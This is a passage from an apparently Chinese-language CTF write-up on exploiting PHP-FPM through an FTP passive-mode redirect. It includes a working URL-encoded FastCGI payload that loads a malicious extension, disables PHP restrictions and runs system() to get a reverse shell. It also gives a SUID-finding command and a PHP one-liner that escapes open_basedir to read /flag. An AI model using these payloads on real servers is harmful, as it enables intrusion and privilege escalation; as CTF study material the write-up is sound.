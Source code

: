 ```php
    'SERVER_ADDR'       => '127.0.0.1',
    'SERVER_PORT'       => '80',
    'SERVER_NAME'       => 'localhost',
    'SERVER_PROTOCOL'   => 'HTTP/1.1',
    'CONTENT_LENGTH'    => strlen($code)
);
// print_r($_REQUEST);
// print_r($params);
//echo "Call: $uri\n\n";
echo $client->request($params, $code)."\n";
?>

```

payload

```
?file=ftp://ip:9999/&data=%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%02%3D%00%00%11%0BGATEWAY_INTERFACEFastCGI%2F1.0%0E%04REQUEST_METHODPOST%0F%19SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Fadd_api.php%0B%0CSCRIPT_NAME%2Fadd_api.php%0C%0EQUERY_STRINGcommand%3Dwhoami%0B%1BREQUEST_URI%2Fadd_api.php%3Fcommand%3Dwhoami%0C%0CDOCUMENT_URI%2Fadd_api.php%09%80%00%00%B0PHP_VALUEunserialize_callback_func+%3D+system%0Aextension_dir+%3D+%2Ftmp%0Aextension+%3D+evil.so%0Adisable_classes+%3D+%0Adisable_functions+%3D+%0Aallow_url_include+%3D+On%0Aopen_basedir+%3D+%2F%0Aauto_prepend_file+%3D+%0F%0ESERVER_SOFTWAREctfking%2FTajang%0B%09REMOTE_ADDR127.0.0.1%0B%04REMOTE_PORT9001%0B%09SERVER_ADDR127.0.0.1%0B%02SERVER_PORT80%0B%09SERVER_NAMElocalhost%0F%08SERVER_PROTOCOLHTTP%2F1.1%0E%02CONTENT_LENGTH49%01%04%00%01%00%00%00%00%01%05%00%01%001%00%00%3C%3Fphp+system%28%24_REQUEST%5B%27command%27%5D%29%3B+phpinfo%28%29%3B+%3F%3E%01%05%00%01%00%00%00%00
```

此时ftp建立连接后，会通过被动模式将payload重定向到目标主机本地9001端口的php-fpm上，并成功反弹shell

注意：ftp协议端口之后要加`/`

![image-20211115105719786](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202202250013689.png)

#####  流程

先上传so文件=>再上传file.php=>开启ftp服务=>监听端口=>传入payload

##### SUID提权

反弹shell后，查看flag无权限

使用suid提权，查找有权限的命令

```
find / -perm -u=s -type f 2>/dev/null
```

发现php就有suid，php -a进入交互模式，绕过open_basedir并getflag

```
mkdir('test');chdir('test');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo file_get_contents('/flag');

```

